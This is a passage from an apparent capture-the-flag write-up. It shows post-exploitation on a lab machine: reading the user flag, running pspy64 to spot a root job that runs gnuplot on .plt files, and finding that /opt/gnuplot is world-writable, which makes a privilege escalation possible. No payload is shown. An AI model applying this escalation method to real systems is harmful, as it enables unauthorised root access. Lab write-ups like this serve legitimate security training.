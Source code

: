 
# post exploitation
## getting the user flag
```bash
-bash-5.0$ ls
linpeas.sh  pspy64  user.txt
-bash-5.0$ cat user.txt 
a42f72ee9e80fe3226febc4ef59c6aae
```

## privilege escalation
Lets start using `pspy64` to see if there are juicy processes running.
```bash
-bash-5.0$ ./pspy64 
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
...
2023/06/30 08:26:26 CMD: UID=0     PID=35881  | find /opt/gnuplot -name *.plt -exec gnuplot {} ;
...
```

> Yes. There seems to be a regular by `root` executed process which is worth a look

Googling for `gnuplot plt privilege escalation` gives you the following website:
[https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/gnuplot-privilege-escalation/](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/gnuplot-privilege-escalation/)

So it is possible to execute code on the system when `gnuplot` executes a `plt` file.  
Lets check if we are allowed to write into `/opt/gnuplot`.
```bash
-bash-5.0$ ls -lsah /opt/
total 12K
4.0K drwxr-xr-x  3 root root 4.0K May 19 13:04 .
4.0K drwxr-xr-x 18 root root 4.0K Jun 12 10:37 ..
4.0K drwx-wx-wx  2 root root 4.0K Jun 30 02:50 gnuplot
```
